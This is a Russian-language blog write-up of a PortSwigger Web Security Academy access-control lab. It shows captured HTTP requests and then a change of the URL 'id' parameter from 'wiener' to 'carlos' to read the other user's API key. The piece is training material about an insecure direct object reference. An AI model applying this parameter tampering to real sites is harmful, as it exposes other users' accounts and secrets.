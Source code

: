 ```yaml
---
title: "User ID controlled by request parameter"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter"
classes: wide
---
```


Для решения лабы нужно получить `API` токен пользователя `carlos`. Для входа есть креды от учетной записи `wiener`:`peter`.

```
https://0a48009d04e7fa778098948800df006c.web-security-academy.net/
```

## Solution

Зайду в данную учетку. 

Ничего интересного не вижу, кроме функции изменения почты. Попробую это сделать:

```http
POST /my-account/change-email HTTP/2
Host: 0a48009d04e7fa778098948800df006c.web-security-academy.net
Cookie: session=Ps1zcdu7m7TTe4808VPrxUKDXSuWKRn9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a48009d04e7fa778098948800df006c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=mail%40mail.com&csrf=ZtSk4EzKiCJQNaeRPb3EMaBcu3GtKrPr
```

Попробую изменить значение в теле запроса:

```http
POST /my-account/change-email HTTP/2
Host: 0a48009d04e7fa778098948800df006c.web-security-academy.net
Cookie: session=Ps1zcdu7m7TTe4808VPrxUKDXSuWKRn9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: https://0a48009d04e7fa778098948800df006c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=new_name&csrf=Rl2U5qcaKmFk73pWIeHEhEvMWI8XpJqG
```

Запрос обработан, но ничего путного не вышло. Попробую сделать еще проще: в `URL` указано имя `wiener` в параметре `id`, подставлю `carlos`)

```
https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=carlos
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter/1.png){: height="200" .align-center}

Сдам `API` ключ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter/2.png){: height="200" .align-center}